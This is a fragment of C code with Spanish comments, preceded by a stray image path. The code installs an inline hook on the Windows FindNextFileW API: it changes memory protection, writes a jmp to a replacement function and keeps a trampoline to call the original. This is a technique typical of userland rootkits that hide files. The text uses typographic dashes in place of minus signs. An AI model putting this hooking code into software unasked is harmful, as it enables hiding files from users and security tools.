

BufferFN++;
// En los otros 4 la distancia del salto
*((signed int *) BufferFN)= DirFN – BufferFN + 3;
// Asignamos al puntero, la funcion pBuff del inicio del Buffer para poder ejecutar el api original
pBuffFN = (HANDLE (__stdcall *)(HANDLE,LPWIN32_FIND_DATAW)) (BufferFN-8);
// Le damos todos los permisos a los 5 primeros bytes de la api original
VirtualProtect((void *) DirFN,5,PAGE_EXECUTE_READWRITE,&ProteVieja);
// Cambiamos el tipo a puntero a byte para facilitar el trabajo
DirYoFN=(BYTE *) miFindNextFileW;
// En el inicio de la api metemos un jmp para que salte a miFindNextFileW
*DirFN=0xE9;
DirFN++;
// Metemos la distancia del salto
*((signed int *) DirFN)=DirYoFN – DirFN – 4;
// Libermos librerias de cache
FlushInstructionCache(GetCurrentProcess(),NULL,NULL);